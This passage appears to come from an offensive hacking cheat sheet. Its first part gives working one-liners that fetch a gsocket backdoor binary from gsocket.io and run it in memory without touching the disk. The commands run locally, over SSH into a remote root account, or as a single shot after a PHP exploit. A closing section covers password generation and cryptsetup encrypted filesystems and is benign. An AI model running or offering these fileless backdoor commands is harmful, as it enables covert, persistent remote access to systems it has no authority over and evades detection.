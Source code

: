 Deploy gsocket without writing to the filesystem (example):
```sh
GS_ARGS="-ilqD -s SecretChangeMe31337" memexec <(curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m))
```

The backdoor can also be piped via SSH directly into the remote's memory, and executed:
```sh
MX='-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV'
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | ssh root@foobar "exec perl '$MX' -- -ilqD -s SecretChangeMe31337"
```

If you have a single-shot at remote executing a command (like via a PHP exploit) then this is your line:
```sh
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)|perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- -ilqD -s SecretChangeMe31337
```

---
<a id="crypto"></a>
## 9. Crypto
<a id="gen-password"></a>
**9.i. Generate quick random Password**

Good for quick passwords without human element.

```sh
openssl rand -base64 24
```

If `openssl` is not available then we can also use `head` to read from `/dev/urandom`.

```sh
head -c 32 < /dev/urandom | xxd -p -c 32
```

or make it alpha-numeric

```sh
head -c 32 < /dev/urandom | base64 | tr -dc '[:alnum:]' | head -c 16
```

<a id="crypto-filesystem"></a>
**9.ii.a. Linux transportable encrypted filesystems - cryptsetup**

Create a 256MB large encrypted file system. You will be prompted for a password.

```sh
dd if=/dev/urandom of=/tmp/crypted bs=1M count=256 iflag=fullblock
cryptsetup luksFormat /tmp/crypted
cryptsetup open /tmp/crypted sec
mkfs -t ext3 /dev/mapper/sec
```
